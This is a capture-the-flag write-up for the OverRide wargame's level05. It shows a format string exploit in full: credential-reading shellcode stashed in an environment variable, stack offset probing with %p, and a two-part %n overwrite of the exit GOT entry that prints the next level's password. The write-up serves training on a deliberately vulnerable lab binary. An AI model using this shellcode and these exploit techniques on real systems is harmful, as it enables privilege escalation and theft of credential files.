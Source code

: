 Again, it's a string format exploit. 
We start by exporting our shellcode into an environment variable, we already used it quite a few times.

```bash
export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass")'`
```

We then check the address of the shellcode:

```assembly
(gdb) x/100x *environ
0xffffd790:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a0:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b0:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c0:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d0:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e0:	0x90909090	0x90909090	0x90909090	0x90909090
[...]
```

And we use the exploit to see where our string can be found in the stack:

```bash
level05@OverRide:~$ cat <(python -c 'print("AAAA" + " %p " * 15)') | ./level05 
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd56f  0xffffd56e  (nil)  0xffffffff  0xffffd5f4  0xf7fdb000  0x61616161  0x20702520  0x20702520  0x20702520  0x20702520  0x20702520 
```

We check where we want to write the address of our environment variable :

```assembly
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

And we go for it : 

```bash
level05@OverRide:~$ cat <(python -c 'print("\xe0\x97\x04\x08" + "%4294957020x" + "%10$n" + " -> %10$p")') | ./level05 
�level05@OverRide:~$ 
```

There is an issue, and it's quite strange because it doesn't print anything....
And it doesn't work because `4294957020` is greater than int32_t max !

So we need to write 2 bytes by 2 bytes:
We need to write `0xd7e0 -> 0x08048370`  and `0xfff -> 0x08048372`
Since we will have already written 8 bytes to specify the addresses, we have :

```mathematica
>>> a = 0xd7e0
>>> a - 8
55256
>>> b = 0xffff
>>> b - a 
10271
```

```bash
cat <(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55256x" + "%10$n" + "%10271x" + "%11$n")') | ./level05
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

```bash
su level6
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```


